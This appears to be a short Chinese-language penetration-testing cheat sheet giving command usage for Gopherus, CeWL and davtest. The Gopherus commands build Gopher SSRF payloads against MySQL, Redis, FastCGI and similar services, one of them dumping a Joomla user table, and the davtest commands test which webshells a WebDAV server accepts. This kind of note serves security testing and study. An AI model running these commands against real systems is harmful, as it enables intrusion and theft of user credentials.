 ### gopherus
生成利用SSRF的Gopher协议Payload
1.  MySQL (Port-3306)
2.  PostgreSQL(Port-5432)
3.  FastCGI (Port-9000)
4.  Memcached (Port-11211)
    -   If stored data is getting De-serialized by:  
        -   Python
        -   Ruby
        -   PHP
5.  Redis (Port-6379)
6.  Zabbix (Port-10050)
7.  SMTP (Port-25)
```Shell
./gopherus.py --help
./gopherus.py --exploit mysql
# Give MySQL username: goblin
# Give query to execute: use joomla; show tables;
# 下面这句也行
# Give query to execute: select table_name from information_schema.tables where table_schema="joomla";

./gopherus.py --exploit mysql
# Give MySQL username: goblin
# Give query to execute: select * from joomla.joomla_users;
```
生成的Payload可能要多提交几次才能成功

### cewl
定制字典工具
```Shell
cewl 192.168.1.47 -w wl.txt
```

### davtest
webdav测试工具
```Shell
# 测试
davtest -url "http://192.168.1.47/webdav/" -auth "user:password"
# 自动测试哪些webshell可以上传 哪些可以被解析

# 自定义上传
davtest -url "http://192.168.1.47/webdav/" -auth "user:password" -uploadfile "local/file/path" -uploadloc "target/file/path"
```